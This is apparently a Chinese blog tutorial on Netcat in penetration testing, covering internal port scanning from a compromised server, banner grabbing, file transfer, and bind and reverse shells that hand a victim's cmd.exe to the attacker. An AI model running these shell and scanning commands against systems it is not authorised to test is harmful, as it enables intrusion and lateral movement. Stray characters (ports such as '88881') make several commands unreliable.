 ## Netcat

**Netcat** 常称为 nc，拥有“瑞士军刀”的美誉。nc 小巧强悍，可以读写TCP或UDP网络连接，它被设计成一个可靠的后端工具，能被其它的程序或脚本直接驱动。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，它基于socket协议工作。在渗透测试领域，我们通常利用它来反弹shell。

## **常用参数：**

-  -l： 开启监听
-  -p：指定端口
-  -t： 以telnet形式应答
-  -e：程序重定向
-  -n：以数字形式表示ip
-  -v：显示执行命令过程
-  -z : 不进行交互，直接显示结果
-  -u ：使用UDP协议传输
-  -w : 设置超时时间

## 常见的用法：

### 端口扫描：

如果是想单纯的端口扫描的话，利用其它工具比如 nmap会更好。nc端口扫描最主要的用途是，当我们获得了一个网站的权限之后，我们想再渗透进该网站的内网进行渗透。然而，我们的nmap工具是不能扫描到内网的，所以这时我们可以把nc上传到web服务器上，利用它来扫描内网主机。而由于nc体积很小，所以不容易被发现。

```
nc  -z -v -n 192.168.10.14  20-23   #端口或端口范围1
```

![img](https://img-blog.csdnimg.cn/20181115164108291.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果探测到端口开放了，比如上面的 80 端口开放了，我们就可以继续探测其banner信息： 

```
nc -v -n 192.168.10.14  80然后输入get1
```

![img](https://img-blog.csdnimg.cn/20181115164358199.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 聊天

我们还可以利用 nc 做一个简易版本的聊天工具，通过一边监听端口，一边发送消息去该端口，形成一个简易版本的服务端—客户端模型。

**服务器端：**

```
nc   -lvp    8888      #监听8888端口  -l 监听 -v 显示详细信息  -p 指定端口1
```

**客户端：**

```
nc  -nv  10.96.10.208  8888    #连接到服务器的8888端口  -n以数字形式显示ip  -v显示详细信息1
```

![img](https://img-blog.csdnimg.cn/20181115170537457.png)

### 文件传输

我们可以利用 nc 往客户端传送文件

**服务器端：**

```
nc  -lvp  8888 < test.txt1
```

**客户端：**

```
nc -nv 10.96.10.208 8888 > test.txt1
```

![img](https://img-blog.csdnimg.cn/20181115171306605.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 反弹shell

正向连接，意思就是我们主动连接肉鸡

假如我们现在入侵到了一台主机上，我们可以通过执行以下命令将该主机的cmd命令弹到8888端口上

**肉鸡**

```
nc -lvv -p 8888 -t -e cmd.exe1
```

然后我们的主机访问该肉鸡的8888端口，神奇的事就发生了。我们当前的cmd环境变成了目的主机的cmd环境了

**我们的主机**

```
nc  -nvv  192.168.10.14  88881
```

![img](https://img-blog.csdnimg.cn/20181115172533974.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

反向连接，意思就是我们监听端口，然后肉鸡主动连接到我们的主机

**我们的主机**

```
nc  -lvp  88881
```

**肉鸡**

```
nc  -t -e cmd.exe 10.96.10.208 88881
```

![img](https://img-blog.csdnimg.cn/20181115173348959.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 蜜罐

作为蜜罐

一直监听8888端口，知道 ctrl+C 停止

```
nc  -L -p  8888  > log.txt   #监听8888端口，并且将日志信息写入log.txt中1
```

![img](https://img-blog.csdnimg.cn/20181115190523919.png)